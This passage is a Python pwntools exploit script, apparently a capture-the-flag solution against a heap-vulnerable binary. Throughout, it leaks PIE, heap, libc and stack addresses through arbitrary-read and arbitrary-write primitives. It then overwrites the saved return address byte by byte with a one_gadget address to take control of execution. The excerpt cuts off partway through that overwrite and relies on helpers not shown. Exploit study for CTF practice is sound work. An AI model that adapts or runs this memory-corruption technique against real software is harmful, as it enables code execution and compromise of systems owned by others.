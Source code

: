 ```python
            except EOFError:
                with context.local(log_level='error'): io.close()

io, heap_page = brute_heap_offset()

__dso_handle = aar(-24)
elf.address =  __dso_handle - elf.symbols['__dso_handle']

log.info('pie ' + hex(elf.address))

tcache_perthread_struct = heap_page + 8 - 0x20

io.recvuntil(b"exception:")

while True:
    io.sendline(f"1 {tcache_perthread_struct}".encode())
    io.recvuntil(b"L")
    if io.recv(1) == b'\x91':
        io.recvuntil(b"exception:")
        break
    io.recvuntil(b"exception:")
    tcache_perthread_struct -= 0x1000
    
heap = tcache_perthread_struct - 0x8
top_chunk = heap + 0x0ab8
log.info('heap ' + hex(heap))
log.info('top_chunk ' + hex(top_chunk))

io.sendline(f"-3 {top_chunk+2}".encode())
io.sendline(b"-1 -"+b"1"*0x800)

# cmd = """
# init-pwndbg
# b* main+199
# """
# gdb.attach(io, cmd)

libc.address = aar(top_chunk+8) - 0x21ace0

io.sendline(f"1 {top_chunk+8+6}".encode())

log.info('libc ' + hex(libc.address))

og_offset = [0x50a47, 0xebc81, 0xebc88, 0xebc85]

stack = aar(libc.sym.__environ - elf.sym['data']) - 0x21ace0
ret = stack - 0x120
rbp = ret-8
log.info('stack ' + hex(stack))
log.info('ret ' + hex(ret))

with open("libc_bss", "rb") as f:
    data = bytearray(f.read())

## Overwrite rbp with stack address in libc_environ
aaw(rbp, libc.sym.__environ, 8)

def get_byte(addr, nth):
    return ((addr >> 8*nth) & 0xff).encode()
og = libc.address + og_offset[2]

aaw(libc.bss()+data.find(get_byte(og, 0)), ret, 1)
aaw(libc.bss()+data.find(get_byte(og, 1)), ret+1, 1)
```